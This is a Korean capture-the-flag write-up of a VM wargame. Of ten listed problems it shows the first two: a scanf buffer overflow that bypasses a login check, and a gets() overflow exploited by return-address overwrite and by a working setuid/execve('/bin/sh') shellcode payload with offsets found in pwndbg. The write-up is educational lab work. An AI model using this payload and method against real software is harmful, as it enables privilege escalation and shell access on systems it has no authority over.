## 목차

1. [문제 1번(BOF)](#problem-1)
2. [문제 2번(Shellcode)](#problem-2)
3. [문제 3번(Stack BOF)](#problem-3)
4. [문제 4번(ROP)](#problem-4)
5. [문제 5번(BOF + ROP)](#problem-5)
6. [문제 6번(Canary + BOF)](#problem-6)
7. [문제 7번(OOB + GOT Overwrite)](#problem-7)
8. [문제 8번(FSB)](#problem-8)
9. [문제 9번(Stack Pivot)](#problem-9)
10. [문제 10번(FSB + libc GOT Overwrite)](#problem-10)
11. [소감](#reflection)



먼저 VM을 다운받고 들어오게 되면 이렇게 화면이 뜬다(확장자는 버츄얼박스지만 VMware에서도 연동이 가능함)



로그인을 하면 이렇게 뜨게 된다.



이렇게 chap 명령어를 치면 현재 챕터가 나온다(아직 시작 안 해서 안 뜸)

이제 next를 눌러서 시작하면 된다.

## 문제 1번(BOF) {#problem-1}



next를 누르니까 정상적으로 1번으로 온 것을 확인할 수 있음<br />(글씨가 깨져서 그런거지 별 문제는 없다.)



먼저 들어와서 ls -al 명령어를 쳐주니까 이렇게 자세하게 파일들을 보여줌

여기서 우리가 봐야 할 파일은 총 2개이다.

```py
MV : 실행할 문제 프로그램
MV.c : 소스코드
```

먼저 파일을 실행했더니 아래와 같이 id와 password를 입력하는 창이 나왔다.



그래서 대충 id와 비밀번호를 알아내는 문제라고 생각하게 되었다.<br />이제 소스코드를 봐서 취약한 점을 찾아보기로 하였다.

소스코드에서는 핵심적인 점들을 볼 수 있었는데, 설명을 해보면 아래와 같다.



이 부분에서는 각 입력 공간의 크기가 할당되어 있는 것을 볼 수 있다.<br />(admin은 10바이트, input값은 20바이트, pw는 20바이트 등등..)



근데 여기 scanf문을 보면 그냥 글자 수대로 받는 값을 명시해 놓지 않고 있다는 점이다.

그러면 최대 입력 길이가 지정되어 있지 않아서 id\_input 값은 20바이트인데 20자보다 긴 문자열도 계속 저장되어서 근처 메모리까지 같이 덮어쓴다.<br />(흔히 말하면 **버퍼 오버플로우**가 터진다)





그리고 이 부분이 바로 조건이 들어있는 부분인데, 요약하면 다음과 같다.

**cmp3 : 입력한 ID의 앞 5글자가 admin 일 것<br />cmp4 : admin 변수의 값이 confirm 일 것**

그러면 우리는 결과적으로 cmp 3, 4의 조건을 실행하면서 버퍼 오버플로우로 메모리를 오염시키면 된다.

```py
adminAAAAAAAAAAAAAAAAAconfirm
```

이렇게 간단하게 id에 입력을 하고 pw는 아무거나 입력하면 성공한다.

이렇게 입력하면 성공적으로 admin으로 로그인이 성공한다.



그리고 2번을 누르면 다음 문제의 비밀번호가 열리게 된다.



## 문제 2번(Shellcode) {#problem-2}

이제 2번으로 넘어와서 바로 ls -al을 입력해서 파일들을 봐주었다.



파일을 열어본 결과 다음과 같은 중요한 파일들을 발견하였다.<br />종합을 해보면 아래와 같다.

```py
File_Decoder : 실행 파일
File_Decoder.c : 소스코드
.Real_Top_Secret : 읽어야 할 다음 단계 비밀 파일
```



파일을 실행해 보면 이렇게 Serial Number를 입력하라고 나와있다.

그래서 소스코드 부분을 열어 main부터 살펴보았다.



main을 보면 `gets(serial)`이 굉장히 취약해 보인다.

`gets()`는 입력 길이를 제한하지 않아서 버퍼 오버플로우가 가능하기 때문이다.<br />근데 소스코드를 더 보니까 그냥 Serial번호가 나와있었다.



~~**호호홓 개꿀**~~



여기부터는 한글 너무 깨져서 ip 연결하고 ssh로 로컬에서 하기로 함



이런게 있었네??? (지린다)



뭐 다시 보면 대충 시리얼 번호 사용하지 말라는 것 같은데 일단 시리얼 번호 넣어보고 gets()를 사용한 방법 총 2개를 사용해 보겠다.

```py
# TOP SECRET - 최상위 기밀 정보
# 경고: 이 파일에 대한 무단 접근 및 변조는 보안 프로토콜 위반으로 간주됩니다.
# 위반 시, 즉각적인 해고 및 "적대적 존재"로 재분류 될 수 있습니다.

[기밀 정보]
접근 권한: 오메가-12 (최상위 기밀)
접근 제한: 아르케아 (프로젝트 책임자) | 특수 작전 부대 | 글로벌 생존 태스크 포스

[파일 상태]
암호화 수준: 고급 (AES-256 | 이중 암호화)
마지막 접근: 2024-11-30 04:57 UTC
보안 침해: 없음
현재 상태: 검토 중

[미션 요약]
목표: 비인간 존재에 대한 대응책 개발 (현재 "좀비"로 분류됨).
위협의 기원: 생물학적 조작 바이러스 (코드명: Z-09X).
첫 번째 발생일: 2024-10-17
현재 전 세계 상황: 국가 기반 시설 마비. 민간인 사망자: 전 세계 인구의 약 65% 추정.

[작전 아르케아]
코드명: 아르케아 (주요 작전원)
미션 브리핑: 아르케아는 감염 초기 단계의 감시 및 비정상적인 해결책을 찾는 임무를 맡았다. 마지막 확인 위치: 폐쇄된 CDC 시설 (좌표: X22Y46Z).
현재 상태: 실종. 마지막 통신: "바이러스가… 진화하고 있어. 그들이… 그들이 적응했어. 상황은 우리가 예측한 것보다 더 나빠."

**[정보 보고서]**
분석: 아르케아는 '프로젝트 더스크'의 주요 연구원으로, Z-09X 바이러스의 급속한 돌연변이를 이해하고 대응책을 개발하는 임무를 수행했다. 프로젝트 마지막 단계에서 무단 실험(“이클립스 프로토콜”)이 개시되었고, 이는 예기치 않은 결과를 초래하며 봉쇄 실패와 바이러스의 급격한 변이를 일으켰다.

경고: 이클립스 프로토콜은 바이러스의 돌연변이 속도를 가속화시킨 것으로 보인다. 아르케아의 마지막 전송에는 잠재적 봉쇄 해결책에 대한 암호화된 좌표가 포함되어 있으나, 추가 해독이 필요하다.

**[암호화 키 및 코드]**
암호화 방법: 3중 AES (키 1: Arkea_45678 | 키 2: Lunar_2024 | 키 3: Theta-XZ1)
추가 코드: "이클립스. 모든 것이 보이는 대로는 아니다. 답은 빛이 도달할 수 없는 곳에 있다."

**[경고]**
이클립스 프로토콜과 관련된 파일은 "극도로 위험한" 자료로 분류된다. 이 파일을 무단으로 접근할 경우, 전 세계 네트워크의 오염 및 잘못된 정보 유포를 초래할 수 있다.

**[파일 목록]**
1. **Encrypted_Arkea_Logs.bin** - 아르케아의 마지막 실험 기록 및 통신 로그.
2. **Eclipse_Protocol_Gamma.pdf** - 이클립스 프로토콜의 최종 초안, 보안상 중요한 부분은 편집됨.
3. **Containment_Solution_XZ_Alpha.txt** - 잠재적 봉쇄 해결책에 대한 초록. 미완성.
4. **Final_Transmission_Audio.wav** - 아르케아의 마지막 전송 기록. 위치 좌표 포함. 극비.

# 주의: 이클립스 프로토콜 파일을 해독하려면 특수 작전 부대의 승인이 필요합니다.
# 이 규정을 따르지 않으면 즉시 접근 권한이 취소될 수 있습니다.
```

대충 이렇게 나왔는데, 일단 넘어가지 않고 `gets()`를 사용한 방식도 해보도록 하겠다.

```py
python3 -c 'import sys;sys.stdout.buffer.write(b"A"*268+b"\xb7\x92\x04\x08\n\x00")'|./File_Decoder
```

간단하게 이렇게 코드를 만들고 실행하면 되는데, 작동 원리는 다음과 같다.

핵심은 serial은 256바이트인데, gets()는 그보다 긴 입력도 계속 메모리에 쓴다는 점이다.<br />그래서 함수가 돌아갈 주소를 비밀 파일 출력 함수로 바꾸는 방식으로, 나오게 하였다.



그러면 이렇게 아까랑 똑같은 화면이 나오는 것을 볼 수 있다.

이제 next를 눌러서 비번을 입력해야 하는데, ~~비번이 뭐지…~~

좀 찾아본 결과로 ASLR이 꺼져있어서, 주소가 고정된 형태로 나오는 것을 알아냈다.



바로 pwndbg 들어가서 shellcode 공격 치기로 함



이렇게 bp를 하나 걸어주고 run을 하면 이렇게 Serial Number 입력 창이 나오는데 그냥 아무거나 누른다(주소만 알면 돼서)



BP는 gets()가 끝난 직후인 0x0804944d에 건다.

```asm
lea eax, [ebp-0x108]
push eax
call gets@plt
```

gets()에 전달된 ebp-0x108이 곧 serial의 시작 주소이다.

```javascript
b *0x0804944d
run
p/x $ebp-0x108
```

결과는 0xffffd380이었다.<br />serial은 EBP-0x108, 반환 주소는 EBP+4이므로 반환 주소까지는 0x108+4=268바이트이다.

```txt
[NOP + 셸코드 268바이트][반환 주소 4바이트]
```

ASLR이 꺼져 있어서 반환 주소는 버퍼 내부의 0xffffd3d0을 사용한다.<br />리틀 엔디언으로는 \\xd0\\xd3\\xff\\xff이 된다.

```bash
(python3 -c 'import sys;sc=b"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";sys.stdout.buffer.write(b"\x90"*(268-len(sc))+sc+b"\xd0\xd3\xff\xff\n")';cat)|./File_Decoder
```

셸이 열리면 id로 권한을 확인하고 status로 다음 비밀번호를 확인한다.



그렇게 셸코드를 버퍼 앞쪽에 배치해 다시 실행했다. `executing new program: /usr/bin/dash`가 출력되었으므로 반환 주소 조작과 셸코드 실행에 성공한 것을 확인할 수 있다. 입력이 끝나면서 셸도 정상 종료되었다.



그리고 이렇게 id와 status를 입력하면 이렇게 다음 챕터로 넘어갈 수 있는 비번이 나오며 클리어된다.

